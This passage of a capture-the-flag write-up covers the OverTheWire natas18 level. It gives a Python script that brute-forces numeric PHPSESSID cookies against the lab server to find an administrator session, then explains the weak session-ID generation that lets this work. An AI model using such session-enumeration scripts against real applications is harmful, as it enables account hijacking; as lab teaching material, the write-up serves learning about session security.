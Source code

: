 
   ```python
      import requests
      from requests.auth import HTTPBasicAuth


      def main():
         # --- Configuration ---
         url = "http://natas18.natas.labs.overthewire.org/"
         auth = HTTPBasicAuth("natas18", "XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX")  # replace with actual

         headers = {
            "Cache-Control": "max-age=0",
            "Accept-Language": "en-US,en;q=0.9",
            "Upgrade-Insecure-Requests": "1",
            "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/140.0.0.0 Safari/537.36",
            "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7",
            "Accept-Encoding": "gzip, deflate, br",
            "Connection": "keep-alive"
         }

         for i in range(641):
            cookies = {"PHPSESSID": str(i)}
            res = requests.get(url, auth=auth, headers=headers, cookies=cookies)

            if 'You are logged in as a regular user.' not in res.text:
                  print(f"Interesting session: {i}")
                  print(res.text)
            else:
                  print(f"{i} : regular")


      if __name__ == "__main__":
         main()

   ```
   
   3. This produced the flag.
   

---

🔑 **Why this works**: 

   - The application accepts a client-supplied PHPSESSID cookie and treats numeric values as valid session identifiers (isValidID() returns true for numeric IDs).

   - Session IDs are generated with rand(1, $maxid) where $maxid = 640, producing only 640 possible IDs — trivially guessable.

   - The server does not bind a session to a specific authenticated user or regenerate the session ID on login; possession of a valid numeric session ID is enough to get a session.
